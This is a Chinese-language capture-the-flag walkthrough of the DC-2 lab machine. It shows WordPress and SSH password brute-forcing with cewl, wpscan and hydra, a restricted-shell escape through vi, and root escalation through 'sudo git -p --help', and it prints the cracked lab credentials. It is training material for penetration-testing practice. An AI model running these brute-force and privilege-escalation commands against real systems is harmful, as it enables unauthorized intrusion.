# 信息搜集

## 主机发现

使用nmap扫描该网段，发现dc-2的ip为192.168.182.140

但是访问提示dns解析错误



修改hosts文件

```
192.168.182.140 dc-2
```

然后出现网站




发现flag1



## 目录爆破

提示使用cewl字典生成，但是并没有发现登录框，使用扫描器经行扫描



发现登录界面wp-login.php



## 暴力破解

### 使用cewl扫描密码

使用方法:https://www.freebuf.com/articles/network/190128.html

### 使用wpscan扫描用户名

使用方法: https://www.freebuf.com/sectool/174663.html

wpscan --url 192.168.182.140

将密码保存在user.txt文件中

然后使用

wpscan --url http://dc-2 -U user.txt -P pass2.txt 

暴力破解，成功破解出密码

```
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

使用jerry成功找到flag2



提示失败,然后我们还有另外一个7744端口是开启的

## ssh破解登录

SSH 指定密钥，连接远程服务器。

------

ssh -i /root/.ssh/ido_sch_pro ido@192.168.1.111 -p 7744

如上，
 /root/.ssh/ido_sch_pro  ：密钥文件路径
 ido@192.168.1.111 ：需要连接的服务器用户名 & IP
 -p 7744  ： 端口7744

使用**hydra工具**使用已生成的密码字典对已知的用户名进行ssh登录密码爆破，获得ssh登录用户：**tom / parturient**

```bash
hydra -L user.txt -P pass.txt 192.168.182.140 ssh -s 7744  

login: tom   password: parturient
```

ssh tom@192.168.182.140 -p 7744

成功登录


ls发现有个flag3.txt文件,尝试查看发现



但是发现vi可以使用

使用vi命令查看flag3.txt

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

提示切换用户

# 提权

## **Restricted shell绕过**

http://www.const27.com/2020/07/03/rbash%E7%BB%95%E8%BF%87/

https://xz.aliyun.com/t/7642

https://www.freebuf.com/articles/system/188989.html

https://mp.weixin.qq.com/s/3ae2NLq5pxURy6aMFon-hA

尝试发现vi可以使用



执行命令

```
vi 1
:set shell=/bin/sh
:shell

#添加环境变量
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin （设置环境变量）
```



使用vi提权获得可以正常执行命令

使用之前jerry爆出来的密码切换为jerry用户



查看flag4

Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!

还差最后一个

## git提权

```
sudo -l #查看都可以使用root权限无密码的命令,发现git命令

sudo git -p –-help  #提权
```





成功找到五个flag